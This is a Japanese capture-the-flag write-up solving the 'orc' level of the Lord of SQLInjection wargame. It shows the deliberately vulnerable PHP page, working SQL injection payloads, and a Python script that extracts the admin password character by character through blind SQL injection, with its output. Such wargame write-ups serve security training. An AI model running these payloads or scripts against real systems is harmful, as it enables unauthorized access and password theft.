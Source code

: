 # orc

## answer

- [orc](../src/orc.py)

## problem

```
query : select id from prob_orc where id='admin' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=aa
```

とすると

```
query : select id from prob_orc where id='admin' and pw='aa'
```

となった。
コードを読んでいく。

```addslashes```関数はエスケープすべき文字の前にバックスラッシュをつけて返す。
エスケープすべき文字とは、以下のとおり

- シングルクォート (')
- ダブルクォート (")
- バックスラッシュ (\\)
- NUL (NULL バイト)

```
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```

とあるが、これはsqlの結果を返し、パスワードが一致しないといけないということ。

方針としては、BlindSQLiのつもりでいく。

```
https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or 1-- ;
```

これが、

```
query : select id from prob_orc where id='admin' and pw='' or 1-- ;'
```

となり、```Hello admin```を誘発させるので、やっぱりBlindSQLi可能。
その次重要になるのはどうpasswordを抜いていくか。
コード見た感じSUBSTRとかは使えそう？

```
https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or substr(pw,1,1)='a' and id = 'admin' -- ;
```

これでpasswordの一文字目がaじゃないってことが分かるって寸法。

じゃあコードかいていくぜ

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            print("  " + char)
            val = '\' or SUBSTR(pw,{count},1)=\'{char}\' and id = \'admin\' -- ;'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                return
    print(password)

if __name__ == "__main__":
    main()
```

```
$ python3 code/orc.py 
2
29
295
295d
295d5
295d58
295d584
295d584
```

## supplementary

先にパスワードの長さを取得するのもスタンダードらしいっす。

```
?pw=' or length(pw)=8 -- ;
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashes | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)